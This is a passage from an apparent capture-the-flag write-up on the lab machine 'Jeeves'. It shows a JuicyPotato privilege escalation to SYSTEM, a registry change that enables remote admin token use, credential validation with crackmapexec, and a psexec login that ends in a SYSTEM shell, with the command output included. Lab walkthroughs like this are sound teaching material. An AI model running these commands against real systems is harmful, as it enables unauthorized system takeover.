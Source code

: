 ```ruby
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users                
Global Group memberships     *None                 
The command completed successfully.
```

> The new user has already admin privileges, but we need to change reg policies to connect succesfully

```bash
C:\Jenkins>JuicyPotato.exe -l 1337 -p cmd.exe -t * -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

```ruby
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```bash
❯ crackmapexec smb 10.10.10.63 -u 'test' -p 'test123'
```

```ruby
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\test:test123 (Pwn3d!)                                                      
```

> Now we can connect with psexec

```bash
❯ impacket-psexec WORKGROUP/test@10.10.10.63 cmd.exe
```

```ruby
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file QkZnawxg.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service YNUq on 10.10.10.63.....
[*] Starting service YNUq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```
